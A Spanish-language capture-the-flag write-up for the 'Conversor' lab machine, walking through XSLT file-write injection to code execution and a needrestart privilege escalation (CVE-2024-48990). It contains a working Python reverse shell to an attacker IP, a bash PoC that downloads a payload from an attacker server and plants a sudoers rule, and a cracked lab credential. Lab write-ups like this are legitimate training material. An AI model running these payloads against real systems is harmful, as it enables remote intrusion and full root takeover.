









# Conversor 
Dificultad: Fácil 

Host: Linux

## Scan Nmap 
Ejecutamos los siguientes comandos para hacer el reconocimiento de puertos. 

``` bash 
ip=<host IP>

sudo nmap -p- --open -T5 -v -oG ports.txt $ip -n

sudo nmap -p$(cat ports.txt | grep -oP '\d{2,5}/open' | awk '{print $1}' FS="/" | xargs | tr ' ' ',') -sC -sV $ip -oN results.txt
```



## Servicio Web 
El host dispone de una página web en su puerto 80, al realizar un fuzzing de directorios, se pueden encontrar las siguientes rutas. 
 


En el panel de `/login`, vamos a registrar un usuario, para tener credenciales simples yo puse `admin:admin`. Esto nos va a terminar dando un inicio de sesión exitoso y vamos a pasar a la funcionalidad que nos interesa de Conversor.




### XSLT RCE 

Si vamos a `/about`, veremos que es posible descargar el código fuente de la aplicación web, entre los archivos vamos a encontrar un `installation.md`, en este, se presenta un cronjob que alude a ejecución de scripts de Python 

``` bash 
www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```
Esto implica que cada cierto tiempo, se ejecutan los archivos .py en la ruta `/scripts/`

El servicio de la página de Conversor es vulnerable a una ejecución de código Python remoto por medio de archivos XSLT, vamos a capturar la solicitud HTTP con BurpSuite y vamos a usar un archivo XML default: 

``` XML 
<?xml version="1.0" encoding="UTF-8"?>
<root>Test</root>
```

Y vamos a inyectar código Python en el XSLT, usemos este archivo de prueba, sin olvidar guardarlo en la carpeta `/scripts`. 
``` XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/test.py" method="text">
      Hi! 
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

Subí los archivos con ese código para mostrar su funcionamiento, de proceder de tal manera veremos lo siguiente (para la inyección de código basta con usar Burp):



Ahora que sabemos que es vulnerable a código Python, vamos a agregar la siguiente revshell al archivo XSLT

```Python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.83",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Entonces nuestro archivo XSLT quedaría así: 
```XSLT 

<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/test.py" method="text">
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.15.83",4444))
os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
 os.dup2(s.fileno(),2)
 import pty
pty.spawn("/bin/bash")   
    </exploit:document>
 		RevShell uploaded
  </xsl:template>
</xsl:stylesheet>
```

Antes de enviar la solicitud HTTP en Burp con este archivo, escuchamos en el puerto indicado en la revshell con netcat: `nc -lvnp 4444`

## Acceso inicial al sistema - SSH & User Flag

Una vez que se ejecuta el cronjob, entramos al sistema como `www-data`



Si rebuscamos un poco entre los directorios, encontraremos el archivo `userds.db` en `/instance`. Para poder inspeccionarlo, inicié un servidor HTTP en Conversor para descargarlo en mi máquina nativa y analizarlo con `sqlite`. Una vez abierto con `sqlite`, encontraremos dos tablas, una de archivos y la otra de usuarios, esta última contiene hashes.



Si crackeamos el hash del usuario `fismathack`, obtendremos el siguiente resultado:


`fismathack:Keepmesafeandwarm`

Con estas credenciales entraremos por SSH, y allí encontraremos la user flag.

## Escalada de privilegios: CVE-2024-48990

Si ejecutamos el comando `sudo -l` con el usuario accedido, veremos que tiene permitido NOPASSWD en el binario `needrestart`.



Usaremos el siguiente [PoC](https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing) para escalar a root. 

``` bash 
#!/bin/bash  
set -e  
cd /tmp  
  
# 1. Create the malicious module directory structure  
mkdir -p malicious/importlib  
  
# 2. Download our compiled C payload from our attacker server  
#    (Replace 10.10.14.81 with your attacker IP)  
curl http://10.10.14.81:8000/__init__.so -o /tmp/malicious/importlib/__init__.so  
  
# 3. Create the "bait" Python script (e.py)  
#    This script just loops, waiting for the exploit to work  
cat << 'EOF' > /tmp/malicious/e.py  
import time  
import os  
  
while True:  
    try:  
        import importlib  
    except:  
        pass  
      
    # When our C payload runs, it creates /tmp/poc  
    # This loop waits for that file to exist  
    if os.path.exists("/tmp/poc"):  
        print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")  
        # The C payload also added a sudoers rule.  
        # We use that rule to pop our root shell.  
        os.system("sudo /tmp/poc -p")  
        break  
    time.sleep(1)  
EOF  
  
# 4. This is the magic!  
#    Run the bait script (e.py) with the PYTHONPATH hijacked.  
#    This process will just sit here, waiting for needrestart to scan it.  
echo "Bait process is running. Trigger 'sudo /usr/sbin/needrestart' in another shell."  
cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
```

Cuando ya esté corriendo el proceso, vamos a abrir otra shell en `fismathack` y vamos a ejecutar con sudo el proceso, de tal manera que obtengamos acceso root. 

`sudo /usr/sbin/needrestart`



En `/root` hallaremos la root flag. 

